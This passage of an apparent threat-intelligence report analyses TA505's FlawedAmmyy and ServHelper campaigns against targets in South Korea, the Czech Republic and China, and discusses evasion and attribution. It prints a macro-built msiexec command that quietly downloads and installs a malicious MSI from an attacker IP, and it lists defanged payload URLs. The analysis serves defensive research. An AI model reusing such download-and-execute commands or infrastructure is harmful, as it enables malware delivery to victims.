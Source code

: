 Figure 20. Original PE header members (left) vs. overwritten header members (right)
The decrypted FlawedAmmyy RAT slightly different from the one that TA505 reused over its past campaigns. While the previous strings had the modified AmmyyAdmin binary since the source code was leaked, TA505 changed the strings in this sample to PopssAdmin. This may bypass detection rules if the systems’ lists were not updated.

Figure 21. Significant changes in the binary
In another sample targeting South Korea, the difference with the previous case is the XOR encryption hardcoded at 180. We also found that the file delivered is an .MSI executable containing the same .DLL FlawedAmmyy downloader. From the document embedded with the malicious macros, the macro code calls “Run” on the WScript.Shell object. Most of the strings forming the final command are stored in the “Tag” properties of a form embedded in the document.

Figure 22. Sample document in Korean asking the user to enable the macros.

Figure 23. Final command strings in document’s “tag” properties.
The final command executes the download and installation of the .MSI file into C:\Windows\System32\msiexec.exe" back=13 error=continue /i http://92[.]38[.]135[.]99/99.msi /q OnLoad="c:\windows\notepad.exe

Figure 24. .MSI file installed in the system
From the parameters above, “/i” means install, “/q” means quiet. The other three parameters do not appear to be used at all, as reported in the install log (by adding /L*V "C:\example.log" parameter). The .MSI file is a downloader with the .DLL FlawedAmmyy downloader inside; it retrieves the final payload, then decrypts and executes FlawedAmmyy RAT.

Figure 25. Unused parameters from log
Around the second week of August, we found a campaign targeting banks in the Czech Republic with subjects pertaining to credit and NAV transfer. Analysis of the samples revealed that the document and macro style was similar to the Korean campaign that used.MSI files, but this campaign downloads from hxxp://185[.]17[.]122[.]220/555.msi or hxxp://159[.]69[.]54[.]146/555.msi. This .MSI file delivers the NSIS-packed ServHelper, and the binary shares the same C&C server as the campaign targeting Saudi Arabia, Oman, Qatar, and Turkey.
Suspicious activity using ServHelper
A campaign targeting China spoofed FedEx-themed emails with subjects pertaining to delivery problems, failures, or notifications. Instead of attachments, it had malicious URLs in the message content that lead to the download of a malicious document named fedex.doc from hxxp://www.fedexdocs[.]top/fedex.doc or hxxp://www.fedexdocs[.]icu/fedex.doc. The VBA macro in the document downloads an NSIS-packed executable from hxxps://senddocs[.]icu/stelar.exe, which installs ServHelper. However, while initial analysis of the macro it used made us believe that this was from TA505, the macros’ obfuscation and style turned out to be more similar to the ones described in this post, based on the code page, senders, and fast flux. This particular campaign did not match TA505’s technique. Thus we suspect that other cybercriminals purchased or borrowed ServHelper from the underground market for this campaign.
Conclusion
A number of ServHelper samples can be found in the wild, but some do not appear to be attributed to TA505. One such sample (reported by a researcher that used the Twitter handle James_inthe_box), delivered Remcos, seemingly with a TA505 pattern. However, we think it may be more likely that ServHelper is sold to other malicious actors and tested on possible targets. In the long run, as more changes are added to the malware, this can make attribution to specific groups more difficult.
The changes and adjustments that TA505 made from the original ServHelper and FlawedAmmyy routines may indicate that the group is experimenting and testing to determine which forms of obfuscation can bypass detections, resulting in more financial returns. It's also possible that the changes in target countries and industries are driven by the group’s customers; targeting new victims and even returning to previously targeted countries and organizations with new techniques. This also gives TA505 more data on which types of files can be further used for detection evasion, or even to deter attribution.
Given the frequency of changes in routines and deployment from our previous articles, we can expect TA505 to come up with more methods for payload delivery, malware types, and combinations of previously used and new routines. Further, as the malware is still being upgraded, more iterations can be expected in the future. If not removed completely, malicious actors can still take control of computers, peripherals, sensitive information, and proprietary data.